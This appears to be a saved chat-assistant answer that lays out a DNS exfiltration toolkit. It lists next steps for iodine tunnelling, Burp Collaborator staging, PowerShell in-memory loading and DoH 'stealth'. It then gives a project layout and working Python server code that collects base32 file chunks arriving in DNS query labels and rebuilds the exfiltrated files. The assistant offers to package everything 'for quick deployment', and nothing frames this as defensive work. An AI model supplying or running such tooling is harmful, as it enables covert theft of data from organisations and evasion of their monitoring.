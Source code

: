 
### ✅ Next Steps

* **Implement** file reconstruction and test with actual chunk logging.
* Run **iodine** for reliable two-way networking when DNS is the only egress.
* Integrate the loader with **Burp Collaborator** for initial staging.
* Enhance stealth using **PowerShell in-memory** or **DoH** queries.
* Optionally, build a fully automated toolkit/script chaining all components.

Let me know if you'd like me to expand (e.g., full server script combining DoH and chunk assembly) or package this into a repo for quick deployment!

[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"

---

Here’s a complete plan to build a **fully featured DNS exfiltration server toolkit**—supporting **UDP DNS and DoH**, reconstructing exfiltrated files, and easily packaged into a repo for quick deployment.

---

## 📦 1. Project Structure

```
dns-exfil-server/
├── server_dns.py        # UDP DNS exfil server & chunk assembly
├── server_doh.py        # DoH exfil server
├── doh_proxy.py         # Optional DoH-to-UDP proxy
├── requirements.txt
└── README.md
```

---

## 🧠 2. server\_dns.py – UDP DNS Receiver + File Assembly

Based on bufo333’s Python DNS exfil server ([github.com][1]):

```python
# server_dns.py
import base64
from dnslib.server import DNSServer, BaseResolver
from dnslib import RR, QTYPE, A

buffer = {}  # {session: {seq: chunk}}

class Resolver(BaseResolver):
    def resolve(self, req, handler):
        qname = str(req.q.qname).rstrip('.')
        labels = qname.split('.')
        session, seq, total, data = labels[:4]
        buffer.setdefault(session, {})[int(seq)] = data
        print(f"[+] {session} chunk {seq}/{total}")

        # If all chunks received:
        if len(buffer[session]) == int(total):
            parts = [buffer[session][i] for i in sorted(buffer[session])]
            raw = base64.b32decode(''.join(parts))
            fname = f"{session}.bin"
            open(fname, "wb").write(raw)
            print(f"[✔] Reconstructed file: {fname}")

        reply = req.reply()
        reply.add_answer(RR(req.q.qname, QTYPE.A, rdata=A("127.0.0.1"), ttl=60))
        return reply

```

[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"